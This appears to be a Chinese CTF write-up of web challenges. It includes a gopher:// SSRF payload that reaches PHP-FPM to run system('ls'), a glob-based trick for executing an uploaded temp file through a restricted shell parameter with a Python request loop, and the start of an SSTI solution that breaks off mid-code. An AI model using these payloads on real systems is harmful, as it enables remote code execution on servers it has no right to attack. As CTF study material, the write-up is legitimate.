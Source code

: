 			  gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%FF%07%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH54%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%12SCRIPT_FILENAME/app/src/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%006%04%00%3C%3Fphp%20system%28%27ls%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
			  ```
		- urlencode一下交上去就行
		- ![image.png](../assets/image_1660823128839_0.png)
- # Naidesu
	- [参考](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
	- 上传文件，文件应该缓存在`/tmp/php??????`中（其中问号为大小写字母）
	- 可以用`.`来用shell执行文件，glob来匹配文件
		- `.`是`source`的简写
		- 在glob中，方括号表示匹配一个ascii范围内的字符
		- 也就是说`[_-{]`代表小写字母，`[@-[]`代表大写字母
		- `. /[_-{][_-{][_-{]/[_-{][_-{][_-{]?????[@-[]`的意思就是
		- `source /tmp/php??????`
	- 从而实现执行上传的文件
	- ```python
	  import time
	  import requests
	  
	  url = "http://你猜:是啥/"
	  
	  while True:
	      r = requests.post(
	          url, 
	          params = {
	              "c": ". /[_-{][_-{][_-{]/[_-{][_-{][_-{]?????[@-[]"
	          },
	          files = {
	              "file":("a.txt", "env")
	          }
	      )
	      if r.text:
	          break
	      time.sleep(0.5)
	  
	  print(r.text)
	  ```
- # GIGAcHARD SSTI
	- ## 解法一
		- 使用[模块](https://github.com/Marven11/FenJing)自动解题
		- ```python
		  import ssti
		  import requests
		  import functools
		  